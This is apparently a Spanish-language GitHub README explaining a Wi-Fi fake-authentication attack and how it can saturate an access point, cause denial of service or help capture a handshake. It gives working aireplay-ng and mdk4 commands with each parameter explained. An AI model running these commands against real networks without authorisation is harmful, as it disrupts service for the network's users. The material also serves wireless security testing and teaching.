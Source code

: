 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=390&lines=Ataque+de+autenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de Autenticación es lo inverso al de un Desautenticación, aquí lo que se hace es envíar clientes falsos a la red; esto satura el ancho de banda y puede provocar lentitud e incluso DoS. Es útil si se quiere capturar el handshake pero no hay ningún cliente "real" conectado a la red, entonces se aprovecha este ataque.

<h1 align="center"></h1>

### AIRCRACK-NG

Este ataque es funcional si el punto de acceso tiene la seguridad WEP activada, de lo contrario, mostrará un mensaje de: `Denegado (código 12), ESSID o WPA incorrecto`.
```
aireplay-ng --fakeauth 5000 -a <AP-MAC> -h <MAC> <INTERFAZ>
```

**--fakeauth / -1:** Modo de ataque Autenticación.

**5000:** Segundos que transcurré para volver a autenticar.

**-a:** Dirección MAC del punto de acceso.

**-h:** Dirección MAC falsa a autenticar.

![2](https://user-images.githubusercontent.com/75953873/181665516-835bfdd9-d080-4091-92e1-86f72cb22987.png)

Al específicar el tiempo en `0` la autenticación del cliente falso será ilimitado.

</br>

### MDK4

En el caso de MDK4, también contiene parámetros para dicho ataque:

**a:** Modo de ataque Autenticaicón.

**-a:** Dirección MAC del punto de acceso.

**-m:** Direcciones MAC's aleatorias.

```
mdk4 <INTERFAZ> a -a <AP-MAC> -m 
```
![1](https://user-images.githubusercontent.com/75953873/181666285-473396ff-e871-4196-9245-3b0956e5e229.png)



#### ~R3LI4NT~
